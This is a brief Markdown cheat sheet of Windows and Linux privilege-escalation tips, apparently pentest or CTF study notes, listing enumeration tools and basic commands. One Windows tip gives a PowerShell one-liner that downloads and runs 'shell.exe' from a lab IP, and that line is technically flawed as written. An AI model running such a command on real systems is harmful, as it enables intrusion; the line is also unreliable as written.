 # Windows Privilege Escalations
## Important tips

- Use powershell for file transfers

``` iex(iwr http://10.10.10.100/shell.exe) ```
- Tools [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) are more than enough

## Basic Enum
Command | Result 
------------|-----------
systeminfo  |   Get system information ; is system x64/x86 ; are any patches applied

# Linux Privilege Escalations

## Important tips
- [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) is the best tool which is more than enough

## Basic Enum
Command | Result 
------------ | -------------
whoami ; id ; uname -a | Get username and OS info



